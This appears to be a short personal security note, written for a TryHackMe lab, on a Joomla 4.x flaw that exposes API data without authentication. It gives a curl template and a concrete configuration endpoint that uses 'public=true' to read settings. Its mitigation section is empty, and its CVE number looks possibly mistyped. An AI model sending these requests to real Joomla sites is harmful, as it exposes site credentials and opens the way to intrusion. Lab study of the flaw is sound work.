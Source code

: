 # CVE-2023-23572


[[Joomla]] is open-source Content Management System (CMS) and CVE-2023-23572 allowed unauthorized users to fetch information from various web endpoints without prior authentication and can lead to RCE.

Modifying the GET variable `public` value from `false` to `true` ([[API-Hacking]]). [THM Joomify Room](https://tryhackme.com/r/room/joomify) states: *"The API calls are not usually enabled for the general public"*, so why is there variable in production. For the vulnerable version [4.1.0 Joomla Download link](https://downloads.joomla.org/cms/joomla4/4-1-0)

Exploit, consider using [[JQ]] for parsing
```bash
# Never trust inferencing from software... localhost != 127.0.0.1
curl -v -X GET https://$joomla.$vuln/api/$urlthatallowforpublicparametre?public=true

# For customisation consider fuzzing
/api/index.php/v1/config/application?public=true


```
#### Protection and Mitigation

## References

[THM Joomify Room](https://tryhackme.com/r/room/joomify) 
[4.1.0 Joomla Download link](https://downloads.joomla.org/cms/joomla4/4-1-0)